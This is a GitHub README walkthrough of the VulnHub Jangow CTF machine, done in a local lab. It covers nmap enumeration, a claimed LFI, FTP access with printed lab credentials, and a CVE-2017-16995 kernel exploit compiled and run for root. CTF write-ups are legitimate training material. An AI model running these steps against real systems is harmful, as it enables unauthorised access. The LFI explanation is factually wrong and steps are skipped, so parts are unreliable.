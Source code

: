# JANGOW-1.0.1-Walkthrough-Vulnhub
Walkthrough and exploitation steps for the Jangow CTF machine from VulnHub.
## VulnHub CTF — Jangow Walkthrough

This is a walkthrough for the **Jangow** machine from VulnHub. It covers the entire exploitation process, including enumeration, LFI, credential discovery, privilege escalation, and finally rooting the machine.

---

### 1.Setup

- Import the `.ova` file into VirtualBox.
- Run the machine.
- Use `netdiscover` to identify its IP:

```bash
netdiscover -i eth0
```
## Result

(https://github.com/sudebytzn/JANGOW-1.0.1-Walkthrough-Vulnhub/blob/c8c04d1d345fd1389c3aad4fa7b1a1f0c4348158/images/netdiscover.png)
I discovered the machine at `192.168.1.122`.

---

### 2.Port Scanning with Nmap

Initial port scan:

```bash
nmap 192.168.1.122
```
## Nmap Scan Result

![Nmap Output](https://example.com/nmap_result.png)
Open ports:
- **80 (HTTP)**
- **21 (FTP)**
  
We see that ports 80 and 21 are open. 80 is an HTTP website port, while 21 is an FTP file transfer port. Now let's use nmap to scan them in detail. Command: nmap -p 80,21 -Pn -n -sC -sV -oN nmaptaramasi.txt 192.168.1.122

Detailed scan:

```bash
nmap -p 80,21 -Pn -n -sC -sV -oN nmap_scan.txt 192.168.1.122
```
[Output](https://example.com/nmap_result.png)

**Flags used:**
- `-p`: specific ports
- `-Pn`: skip host discovery
- `-n`: skip DNS resolution
- `-sC`: run default scripts
- `-sV`: detect service versions
- `-oN`: save output to file

---

### 3.Web Enumeration

Visiting `http://192.168.1.122` reveals a website with a **"Buscar"** tab, which redirects to:

```
https://pwnlab.me/redirect?to=aHR0cDovLzE5Mi4xNjguNTYuMTE4L3NpdGUvYnVzcXVlLnBocD9idXNjYXI9
```
[Output](https://example.com/nmap_result.png)

This link appears vulnerable to **Local File Inclusion (LFI)**. LFI allows us to upload files remotely. Since the machine is currently running locally, it's local, of course. If it can be uploaded to a remote server, it's RFI. Since I'm running the machine locally, I'll exploit LFI. 

##Local File Inclusion (LFI)
Local File Inclusion (LFI) is a web browser option that enables an attacker to include files on a server. When a web application contains a file before correctly filtering the input, this vulnerability occurs, allowing an attacker to modify the input, insert jump characters from the route, and provide other files from the webserver. It typically affects PHP applications.
By manipulating the URL, we can inspect the file structure and extract sensitive files.

---
[Output](https://example.com/nmap_result.png)

### 4.Credential Discovery

Exploring the web root:

```bash
pwd
# /var/www/html/site

ls -all
```
[Output](https://example.com/nmap_result.png)
[Output](https://example.com/nmap_result.png)

Found a hidden file: `.backup`  
Contents of `.backup` reveal **MySQL credentials**. .backup has read and write permissions.
Also, since FTP port is open, I tested those credentials on the FTP service.

---
[Output](https://example.com/nmap_result.png)

### 5.FTP Access & File Upload

Login to FTP using:

```bash
ftp 192.168.1.122
```

Credentials:
```
Username: jangow01
Password: abygurl69
```
[Output](https://example.com/nmap_result.png)

We've now learned that we can put files inside. We'll try navigating to different directories and using the "put" command. Our goal here is to run the exploit we've installed and become root. To do this, we'll use Local Privilege Escalation. I'll go to my home directory and enter the directory named "jangow01."
Change to the user's home directory:

```ftp
cd /home/jangow01
```
```ftp
ls -all
```
[Output](https://example.com/nmap_result.png)
Download the user flag:

```ftp
get user.txt
```
[Output](https://example.com/nmap_result.png)
---

### 6.Privilege Escalation

Check the kernel version:

```bash
uname -a
# Linux jangow01 4.4.0-31-generic
```
[Output](https://example.com/nmap_result.png)

Search for privilege escalation exploits and found:  
**CVE-2017-16995**
Downloaded and saved the exploit as `jangow.c`.
https://www.exploit-db.com/exploits/45010

Upload it via FTP:

```ftp
put jangow.c
```
[Output](https://example.com/nmap_result.png)
---

### 7.Compilation & Exploitation

On the Jangow machine:
Now let's compile and assemble the .c file using the gcc command: gcc jangow.c -o jangow
Now to make it executable: chmod +x jangow
Then execute the script: ./jangow

```bash
gcc jangow.c -o jangow
chmod +x jangow
./jangow
```
[Output](https://example.com/nmap_result.png)
Now you're root!

---

###8.Root Flag

Check the user:

```bash
whoami
# root
```
[Output](https://example.com/nmap_result.png)
Get the flag:

```bash
ls /root
cat /root/proof.txt
```
[Output](https://example.com/nmap_result.png)
---

## Summary

- Gained access via **LFI**
- Extracted credentials via hidden file
- Used **FTP** to upload a privilege escalation exploit
- Compiled and executed exploit
- Gained **root access**

**Machine successfully rooted!** 

